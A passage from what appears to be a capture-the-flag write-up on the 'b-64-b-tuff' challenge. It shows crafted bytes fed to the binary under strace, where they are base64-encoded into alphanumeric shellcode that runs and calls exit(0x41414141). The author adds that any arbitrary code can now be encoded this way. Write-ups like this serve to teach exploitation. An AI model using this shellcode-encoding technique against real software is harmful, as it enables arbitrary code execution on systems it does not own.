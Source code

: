 And, finally, feed all that into b-64-b-tuff:

<pre id='vimCodeElement'>
$ <span class="Statement">echo</span><span class="String"> -ne </span><span class="Operator">'</span><span class="String">\x84\x00\x00\x01\x7e\x40\x00\x00\x0f\x3c\xf3\xcf\x3c\xf3\xda\x84\x00\x63\x8d\x7e\x40\x0b\xef\x8f\x62\x10\x01\x00\x06\x75\x40\x08\x45\x00\x00\x17\xe7\xd0\x00\x00\xf6\x41\xd5\x00\x00\x00\x00\x21\x00\x08\xe3\x67\x54\x00\x84\x50\x00\x01\x7e\x7d\x00\x00\x0f\x64\x15\x91\x2d\x90\xf5\x40\x00\x00\x00\x08\x63\x8d\xb0\x19\xd5\x00\x21\x14\x00\x00\x5f\x9f\x40\x00\x03\xd9\x05\x64\x4b\x2d\x90\xc3\xd5\x00\x21\x14\x00\x00\x5f\x9f\x40\x00\x03\xd9\x05\x64\x4b\x2c\xb6\x43\x0c\x3d\x50\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x20\x80\x00\x0c\xfe\xfb\xef\xbf\x00\x00\x00\x00\x00</span><span class="Operator">'</span><span class="String"> </span>| strace ./b-64-b-tuff
<span class="Statement">read</span><span class="PreProc">(</span><span class="Number">0</span><span class="Special">, </span><span class="Operator">&quot;</span><span class="Special">\204\0\0</span><span class="Special">\1</span><span class="String">~@</span><span class="Special">\0\0</span><span class="Special">\1</span><span class="String">7&lt;</span><span class="Special">\363</span><span class="Special">\317</span><span class="String">&lt;</span><span class="Special">\363</span><span class="Special">\332\204\0</span><span class="String">c</span><span class="Special">\215</span><span class="String">~@</span><span class="Special">\v</span><span class="Special">\357\217</span><span class="String">b</span><span class="Special">\2</span><span class="String">0</span><span class="Special">\1</span><span class="Special">\0</span><span class="Special">\6</span><span class="String">u@</span><span class="Special">\1</span><span class="String">0</span><span class="Operator">&quot;</span><span class="Special">..., </span><span class="Number">4096</span><span class="PreProc">)</span> <span class="Operator">=</span> <span class="Number">254</span>
write<span class="PreProc">(</span><span class="Number">1</span><span class="Special">, </span><span class="Operator">&quot;</span><span class="String">Read 254 bytes!</span><span class="Special">\n</span><span class="Operator">&quot;</span><span class="Special">, 16Read </span><span class="Number">254</span><span class="Special"> bytes</span><span class="Operator">!</span>
<span class="PreProc">)</span>       <span class="Operator">=</span> <span class="Number">16</span>
write<span class="PreProc">(</span><span class="Number">1</span><span class="Special">, </span><span class="Operator">&quot;</span><span class="String">hAAAAX5AAAAPPPPPPPPahABjjX5AC++P</span><span class="Operator">&quot;</span><span class="Special">..., 340hAAAAX5AAAAPPPPPPPPahABjjX5AC++PYhABAAZ1QAhFAAAX59AAAPZB1QAAAAAhAAjjZ1QAhFAAAX59AAAPZBWRLZD1QAAAAAhjjbAZ1QAhFAAAX59AAAPZBWRLLZDD1QAhFAAAX59AAAPZBWRLLLZDDD1QAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAyCAAAz++++/</span><span class="Identifier">AAAAAAA</span>=<span class="PreProc">)</span> <span class="Operator">=</span> <span class="Number">340</span>
write<span class="PreProc">(</span><span class="Number">1</span><span class="Special">, </span><span class="Operator">&quot;</span><span class="Special">\n</span><span class="Operator">&quot;</span><span class="Special">, </span><span class="Number">1</span>
<span class="PreProc">)</span>                       <span class="Operator">=</span> <span class="Number">1</span>
<span class="Statement">exit</span><span class="PreProc">(</span><span class="Number">1094795585</span><span class="PreProc">)</span>                        <span class="Operator">=</span> ?
+++ exited with <span class="Number">65</span> +++
</pre>

And, sure enough, it exited with the status that we wanted! Now that we've encoded 12 bytes of shellcode, we can encode any amount of arbitrary code that we choose to!
